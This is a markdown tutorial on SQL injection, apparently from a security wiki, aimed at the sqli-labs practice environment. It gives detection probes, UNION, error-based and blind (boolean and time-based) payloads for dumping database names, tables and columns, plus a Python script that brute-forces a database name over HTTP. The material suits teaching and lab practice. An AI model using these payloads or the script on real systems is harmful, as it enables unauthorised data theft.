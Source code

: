 # SQL Injections

First Find the injection : ) , ' , " , ) , ') , “)

INJECTION TYPES
- Error based
- Blind
	- Partial blind [Boolean]
	- Full blind [Time based]
## Handy-Functions:

| Function                                          	| Description                                                          	|
|---------------------------------------------------	|----------------------------------------------------------------------	|
| version()/@@version/@global.version               	| Gives the os info                                                    	|
| ser()/current_user(),system_user(),session_user() 	| Gives the info about the user of the database (E.g : root@localhost) 	|
| database()/schema()                               	| Gives the database name                                              	|
| @@hostname                                        	| Gives the host name                                                  	|
| UUID()                                            	| Gives the MAC address                                                	|
| Group_concat()                                    	| concatenate the items the the given field                            	|
| substr(“abc",1,1)                                 	| a                                                                    	|
| mid(“abc",1,1)                                    	| a                                                                    	|
| ascii('A’)                                        	| 65                                                                   	|
| char(65)                                          	| A                                                                    	|
| concat('a’,’b’)                                   	| ab                                                                   	|
| concat_ws('-’,’a’,’b’,’c’)                        	| a-b-c                                                                	|
| benchmark(no.of loops,expression)                 	| eg. select benchmark(10000000000,1+1)                                	|
| char(97,98,99)                                    	| abc                                                                  	|
| @@basedir                                         	| installation patch                                                   	|
| @@version_compile_os                              	| OS                                                                   	|
| @@innodb_version                                  	| mysql version                                                        	|
| greatest('a','b')='b'                             	| 1                                                                    	|
| greatest(1,2) between 1 and 3                     	| 1                                                                    	|
| like                                                  |   =       
## Lab 

Clone the repo and set up the lab in your system link: https://github.com/Audi-1/sqli-labs

This is the best place to practice SQL injections.

### Finding the injection :
Try the following basic injection 

    ' , " , ) ,  , ") , ’) or 1 -- - [eg : ' or 1 --]

    ' , " , ) ,  , ") , ’) || ',",(, ,(",(’ 1 [eg : ' or '1 ]

Once the injection is found

Find the number of columns in the statement

Find the database name, table names, column names by the below-mentioned methods

Finding the No.of columns in the statement :

1. Start by injecting order by [or group by] 1,2,3...N once you get the error “unknown column" stop there,  then the no.of columns are N-1

2.Using the columns that are displayed as a result of query we can dump the database
    
3. Consider the no.of columns are 3,  and the columns that are being displayed are 2, using those 2 columns we have to dump the database 

Finding the database name:

	' union select 1,database(),2 -- -

![sql](img/wiki/sql/sqld.png)

Finding the tables in the database :

    ' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 -- -

![sql](img/wiki/sql/sqlt.png)

Finding the columns in the database :

    ' union select 1,(select group_concat(column_name) from information_schema.columns where table_name="        "),2 -- -        
[in the blank space give the table name]

![sql](img/wiki/sql/sqlc.png)

Now dumping the information from the columns :
    
    ' union select 1,(select column_name from table_name),3 -- -

[ the columns_name and the table_name are the names obtained from the above injections]

-- all the above injections are based on the assumption the injection is using [ ' ] and the no.of columns are 3, out of which the result of the middle column is being displayed in the web-page

ERROR-BASED:

In this case, you can’t directly dump the database on the screen but you have to dump the data using the errors that we will force to pop-up

Basic-query :
    
    SELECT 1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM USERS LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)

Here instead of username from users,Start from the base like knowing the database name,tables in the database,columns in each table etc. viz database(),table_name from information_schema.tables where table_schema=database() etc.

## Blind Injections

### Boolean based:

As the name says we will dump the database based on the boolean injection output

Finding the error is same : ' or 1 ; “ or 1 ……

Now we will inject our query at the place of one as follows :

    ' or (select database()="security") -- -

If the database name is security the query in the parentheses will return 1 and the whole query value become true hence we will get the output

Let’s dump the database :

Our first aim to find the length of the database name :

    ' or (length(database())=5) -- -

If the length of the name if the database it will return true value.
On knowing the length of the database name lets brute force the database name ,Here Regex comes to play I will suggest to go through some basic syntax of regex.

    ' or (substr(database(),1,1)="a%")

This query will return true if the name of the database starts with a .So brute force  from a - z.I will recommend to bruteforce with an automation script.For that you will need to know about the libraries : ***requests*** and ***time*** in python.

Documentation link for requests : http://docs.python-requests.org/en/master/user/quickstart/

Documentation linke for Time : https://docs.python.org/2/library/time.html

A python programme for brute forcing the database name:

```python
import requests

url1 = "http://localhost/sqli-labs-master/Less-8/?id=1' and (substr(database(),"
url2 = "http://localhost/sqli-labs-master/Less-8/?id=1' and (length(database())="
pay="abcdefghijklmnopqrstuvwxyz,1234567890-_.@!{}=-)(*&^%$#"
database=""

for i in range(1,20):
    query = url2 + str(i) + ") -- -"
    http = requests.get(query)
    content = http.text
    if "You are in..........." in content:
        length = i

for i in range(1,length+1):
    for j in pay:
        query=url1 + str(i) + ",1" + ")='" + j+"') -- -"
        http = requests.get(query)
        content=http.text
        if "You are in..........." in content:
            database=database+j

print("The database name : " + database)
```


You can make it your own way which you may think is the best and has less time complexity.

So Now that you know how to bruteforce the database name you can get the whole database by modifying the queries with the previous knowledge you got from the error based injections.

### Time based :
This not so different from the boolean based injections.The only thing here is you are going to use an if-condition .

Let’s try to do it in backend : 

Try 

    select sleep(10);

![](img/wiki/sql/sql1.png)
    
You will get the response only after 10 sec

    Select if(database()="security",sleep(5),null)

if the name of the database() is security you will get the response only after 5 sec.

Now let’s try to inject it :
    
    1' and if((select substr((select database()),1,1)="s",sleep(5),null) -- -
The databse responded after 5 sec. By using above mentioned functions and the general notion you got from the boolean based injections try to make a python script and dump the database.

